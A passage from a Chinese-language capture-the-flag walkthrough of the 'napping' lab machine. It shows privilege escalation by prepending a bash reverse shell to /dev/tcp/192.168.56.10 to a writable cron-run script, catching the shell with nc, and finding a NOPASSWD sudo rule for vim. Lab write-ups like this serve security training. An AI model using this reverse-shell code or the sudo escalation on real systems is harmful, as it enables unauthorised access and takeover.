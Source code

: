             f.close()
        ```
        
        得知`site_status.txt` 的内容时由该文件产生
        
        查看权限，刚好我们也是`administrators`的用户
        
        ```python
        daniel@napping:/home/adrian$ ls -al query.py 
        -rw-rw-r-- 1 adrian administrators 481 Oct 30  2021 query.py
        ```
        
5. 我们拥有修改`query.py` 的权限，那就是拥有adrian用户的权限了
    - 修改`query.py` ,在顶部添加
        
        ```python
        import os;
        os.system("bash -c 'bash -i >& /dev/tcp/192.168.56.10/1234 0>&1'");
        ```
        
        同时开启监听
        
    - 等待执行
        
        ```python
        nc -lvp 1234                        
        listening on [any] 1234 ...
        192.168.56.3: inverse host lookup failed: Unknown host
        connect to [192.168.56.10] from (UNKNOWN) [192.168.56.3] 43506
        bash: cannot set terminal process group (3289): Inappropriate ioctl for device
        bash: no job control in this shell
        adrian@napping:~$
        ```
        
        获得用户`adrian`的`shell`
        
6. 查找敏感文件
    - 第一个flag文件
        
        ```python
        adrian@napping:~$ cat user.txt
        You are nearly there!
        ```
        
    - `sudo -l` ，K.O.
        
        ```python
        adrian@napping:~$ sudo -l
        Matching Defaults entries for adrian on napping:
            env_reset, mail_badpass,
            secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
        
        User adrian may run the following commands on napping:
            (root) NOPASSWD: /usr/bin/vim
        adrian@napping:~$ 
        ```
        
7. `vim`可以免密码以`root`账号执行，故可以提权
    